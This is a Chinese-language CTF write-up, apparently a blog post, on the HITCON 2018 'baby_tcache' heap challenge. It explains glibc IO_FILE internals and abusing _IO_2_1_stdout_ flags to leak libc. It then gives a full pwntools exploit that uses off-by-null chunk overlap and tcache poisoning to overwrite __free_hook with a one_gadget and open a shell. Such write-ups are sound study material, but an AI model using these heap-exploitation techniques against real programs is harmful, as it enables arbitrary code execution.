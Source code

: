 ```yaml
---
title: HITCON2018_baby_tcache
date: 2020-05-20 00:10:47
tags: pwn
---
```

前段时间在学习tcache attack，先不介绍tcache是个啥，也不介绍什么保护机制什么乱七八糟的，因为👴是懒🐕，所以先咕咕咕了，这些东西后续找时间补上  <!--more-->
这篇就讲一个题，HITCON2018_baby_tcache，这个题算是很经典的   
首先分析程序，保护全开 got不可写，没有show函数  
```shell  
[*] '/home/imlyp/桌面/HITCON2018_babytcache/baby_tcache'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```  
![](1.png)
free后置零，不存在double free  
![](2.png)
并且存在off by null漏洞  
![](3.png)
但是程序中没有show函数，所以很难leak libc，但是我们可以利用_IO_2_1_stdout，我们修改他的结构体中的值，就可以达到打印libc地址的目的  
👴回来写🌶  
程序中存在puts函数，而puts函数会调用_IO_puts，然后会调用_IO_new_file_overflow ，然后会调用_IO_do_write（禁止套娃），在_IO_do_write中可以泄露出_IO_write_base ~ _IO_write_ptr这段缓冲区中的数据，并且这段缓冲区和libc_base偏移固定  
贴上源码，调用puts函数时  
IO_puts源码  
```C++  
int
_IO_puts (const char *str)
{
  int result = EOF;
  _IO_size_t len = strlen (str);
  _IO_acquire_lock (_IO_stdout);
  if ((_IO_vtable_offset (_IO_stdout) != 0
       || _IO_fwide (_IO_stdout, -1) == -1)
      && _IO_sputn (_IO_stdout, str, len) == len
      && _IO_putc_unlocked ('\n', _IO_stdout) != EOF)
    result = MIN (INT_MAX, len + 1);
  _IO_release_lock (_IO_stdout);
  return result;
}
```  

```C++  
int
_IO_new_file_overflow (_IO_FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) 
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL) 
    {
      :
      :
    }
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,f->_IO_write_ptr - f->_IO_write_base);// 需要调用的目标，如果使得 _IO_write_base < _IO_write_ptr，且 _IO_write_base 处存在有价值的地址 （libc 地址）则可进行泄露
    // 在正常情况下，_IO_write_base == _IO_write_ptr 且位于 libc 中，所以可进行部分写
```     
上面的源码可知，当_IO_read_end与_IO_write_base不想等的时候就会打印者之间的字符，其中就有可能会有我们需要的leak，我们再接着看一下函数_IO_do_write,这个函数实际调用的时候会用到new_do_write函数
```C++  
atic
_IO_size_t
new_do_write (_IO_FILE *fp, const char *data, _IO_size_t to_do)
{
  _IO_size_t count;
  if (fp->_flags & _IO_IS_APPENDING)  /* 需要满足 */
    /* On a system without a proper O_APPEND implementation,
       you would need to sys_seek(0, SEEK_END) here, but is
       not needed nor desirable for Unix- or Posix-like systems.
       Instead, just indicate that offset (before and after) is
       unpredictable. */
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      _IO_off64_t new_pos = _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
        return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do); // 这里真正进行 write
```  
我们需要程序执行 _IO_SYSWRITE函数，_IO_SYSWRITE(fp, data, to_do)就是函数write(fp->fileno, data, to_do)的原型，因此如果我们能修改相应的参数，使程序运行到这里，那么久会输出 f->_IO_write_base中的数据，而这些数据里面，就会存在固定的libc中的地址  
需要满足fp->_flags & _IO_IS_APPENDING != 0 或 fp->_IO_read_end != fp->_IO_write_base，我们没办法同时控制_IO_write_base和_IO_read_end，所以我们只要fp->_flags & _IO_IS_APPENDING == 1就行了  
综上所述，我们需要满足条件：  
```C++  
_flags = 0xfbad0000   // 这个0xfbad是magic number，不用管它
_flags & = ~_IO_NO_WRITES // _flags = 0xfbad0000
_flags | = _IO_CURRENTLY_PUTTING // _flags = 0xfbad0800
_flags | = _IO_IS_APPENDING // _flags = 0xfbad1800
```  
我们看看IO_FILE的一些flags  
```C++  
#_IO_FILE flags

#define _IO_MAGIC         0xFBAD0000 /* Magic number */
#define _IO_MAGIC_MASK    0xFFFF0000
#define _IO_USER_BUF          0x0001 /* Don't deallocate buffer on close. */
#define _IO_UNBUFFERED        0x0002
#define _IO_NO_READS          0x0004 /* Reading not allowed.  */
#define _IO_NO_WRITES         0x0008 /* Writing not allowed.  */
#define _IO_EOF_SEEN          0x0010
#define _IO_ERR_SEEN          0x0020
#define _IO_DELETE_DONT_CLOSE 0x0040 /* Don't call close(_fileno) on close.  */
#define _IO_LINKED            0x0080 /* In the list of all open files.  */
#define _IO_IN_BACKUP         0x0100
#define _IO_LINE_BUF          0x0200
#define _IO_TIED_PUT_GET      0x0400 /* Put and get pointer move in unison.  */
#define _IO_CURRENTLY_PUTTING 0x0800
#define _IO_IS_APPENDING      0x1000
#define _IO_IS_FILEBUF        0x2000
                           /* 0x4000  No longer used, reserved for compat.  */
#define _IO_USER_LOCK         0x8000

_flags=_IO_MAGIC+_IO_CURRENTLY_PUTTING+_IO_IS_APPENDING+（_IO_LINKED）

_flags=0xfbad1800 or 0xfbad1880 或者再加一些其他不影响leak的_flags
```  
我们在gdb中看一下_IO_2_1_stdout结构体  
![](4.png)
只要把flags改成0xfbad1800就能满足条件，后面三个全部改成0，使其没有差值，就不会触发read的操作  
整体思路：  
①add 7个chunk，最后一个chunk是防止与top chunk合并的
②free掉chunk4并重新申请回来，通过prev_size的复用，将chunk5的prev_size修改为0x660，再依次free掉2、0、5，可以构造chunk overlap  
③free掉的chunk2进入了tcache，然后通过off by null并触发unlink，再申请一个0+1的size之后，unsorted bin起始位置会在chunk2上，再申请一块chunk，就会从unsorted bin中切出来，并且fd指向main_arena+96  
④修改tcache中指向main_arena+96的低两字节，使其指向_IO_2_1_stdout_  
改之前是这样  
![](5.png)
修改之后变成这样  
![](6.png)
⑤再次申请两个该size的chunk，就会申请到_IO_2_1_stdout_，对其结构体进行修改，使其满足能leak libc的条件  
⑥tcache attack打free_hook为one_gadget  
（这里我尝试打malloc_hook为one_gadget没有成功，realloc调整栈帧也没有成功，打free_hook为system也没有成功，所以无奈之下选择了打free_hook为one_gadget，这些没有成功不知道是为什么）  
exp  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1) 
context.terminal = ['terminator','-x','sh','-c']
binary = './baby_tcache' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF("libc.so.6")
def add(size,content):
    p.recvuntil("choice: ")
    p.sendline("1")
    p.recvuntil("Size:")
    p.sendline(str(size))
    p.recvuntil("Data:")
    p.send(content)
def free(index):
    p.recvuntil("choice: ")
    p.sendline("2")
    p.recvuntil("Index:")
    p.sendline(str(index))
def exp():
    add(0x4f8,"a") # 0
    add(0x30,"a") # 1
    add(0x40,"a") # 2
    add(0x50,"a") # 3
    add(0x60,"a") # 4
    add(0x4f8,"a") # 5
    add(0x10,"a") # 6
    free(4)
    add(0x68,"a"*0x60+p16(0x660)) # 4
    free(2)
    free(0)
    free(5)
    
    add(0x530,"a")
    
    free(4)
    add(0xa0,"\x60\x07")
    add(0x40,"a")
    payload = p64(0xfbad1800) + p64(0)*3 + "\x00"
    add(0x3f,payload)

    addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    log.success("addr==>" + hex(addr))
    libc_base = addr - 0x3ed8b0
    log.success("libc_base==>" + hex(libc_base))
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    free_hook = libc_base + libc.sym['__free_hook']
    system = libc_base + libc.sym['system']
    realloc = libc_base + libc.sym['realloc']
    one = libc_base + 0x4f322
    
    log.success("malloc_hook==>" + hex(malloc_hook))
    log.success("free_hook==>" + hex(free_hook))
    log.success("system==>" + hex(system))
    add(0x70,p64(free_hook))
    add(0x60,"/bin/sh\x00")
    add(0x60,p64(one))

    free(5)

    p.interactive()
exp()
```  
参考链接：  
https://p1kk.github.io/2019/12/03/Tcache%20Attack%E5%AD%A6%E4%B9%A0/tcache/#%F0%9F%94%BAHITCON2018-baby-tcache    
http://pollux.cc/2019/05/03/2018-hitcon-baby-tcache/  
https://zszcr.github.io/2019/03/18/2019-3-18-tcache%E4%B8%8B%E7%9A%84%E5%87%A0%E9%81%93pwn%E9%A2%98/#hitcon2018-baby-tcache  
http://dittozzz.top/2019/04/24/IO-FILE%E9%83%A8%E5%88%86%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/  
https://xz.aliyun.com/t/6473#toc-3  
https://www.jianshu.com/p/c6a585d46bc0  